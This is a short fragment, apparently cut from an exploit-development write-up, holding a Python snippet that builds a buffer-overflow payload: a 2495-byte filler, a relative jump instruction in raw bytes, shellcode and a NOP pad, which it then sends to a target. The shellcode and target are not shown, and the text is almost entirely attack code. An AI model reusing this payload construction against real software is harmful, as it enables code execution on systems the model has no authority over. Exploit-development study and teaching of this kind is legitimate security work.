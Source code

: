 ```python
exp += b'\xe9\xf7\xc8\xff\xff'    # jmp 0xffffc8fc

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

send(buf)
```
{% endcode %}
